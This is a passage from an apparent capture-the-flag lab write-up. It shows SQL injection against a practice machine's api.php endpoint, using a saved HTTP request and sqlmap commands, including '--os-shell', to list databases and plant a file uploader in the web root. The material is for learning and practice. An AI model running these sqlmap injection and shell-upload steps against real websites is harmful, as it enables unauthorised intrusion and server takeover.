 Refer to the home.php, the site actually vulnerable to SQL injection.
The injectable URL is

``` {.highlight}
http://<Machine IP>/api.php?documentid=1&apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD
```

By following up on [this
tutorial](https://www.hackingarticles.in/shell-uploading-in-web-server-using-sqlmap/),
we are able to create a reverse shell for the machine. If you are lazy
to open up the Burp suite, copy the following response as save it as
**r.txt**

``` {.highlight}
GET /api.php?documentid=1&apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD HTTP/1.1
Host: <Machine IP>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=uafomq8a14mf4lkb7pktbrgt69
Connection: close
Upgrade-Insecure-Requests: 1
```

Make sure you change the host IP address before saving it. After that,
launch the sqlmap with the following command.

``` {.highlight}
sqlmap -r r.txt --dbs --batch
```

![sqlmap](/assets/images/THM/2020-08-13-borderlands/16.png)

If you are able to get a list of SQL tables, you are good to go. Or
else, check the r.txt file for any misconfiguration. As for the next
step, we are going to create a SQL upload page.

``` {.highlight}
sqlmap -r r.txt -D myfirstwebsite --os-shell
```

![sqlmap more](/assets/images/THM/2020-08-13-borderlands/17.png)

Select PHP (option 4), ‘no’ option and then brute-force (option 4).

![sqlmap more and
more](/assets/images/THM/2020-08-13-borderlands/18.png)

Enter /var/www/html as custom directory.

![sqlmap final](/assets/images/THM/2020-08-13-borderlands/19.png)

Copy the sqlmap file uploader URL and visit the site.

![uploader](/assets/images/THM/2020-08-13-borderlands/20.png)
